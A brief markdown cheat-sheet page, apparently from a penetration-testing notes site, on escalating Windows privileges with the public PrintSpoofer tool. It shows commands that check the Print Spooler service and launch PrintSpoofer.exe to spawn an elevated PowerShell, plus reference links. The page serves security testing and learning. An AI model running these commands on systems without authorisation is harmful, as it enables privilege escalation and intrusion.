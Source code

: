```yaml
---
description: Escalating privileges with PrintSpoofer
---
```


# PrintSpoofer

### Exploitation

```bash
# Verify that the Print Spooler service is running
Get-Service Spooler

# Run the PrintSpoofer executable to escalate privileges
.\PrintSpoofer.exe -i -c powershell
```

### References

{% embed url="https://github.com/itm4n/PrintSpoofer" %}

{% embed url="https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/" %}
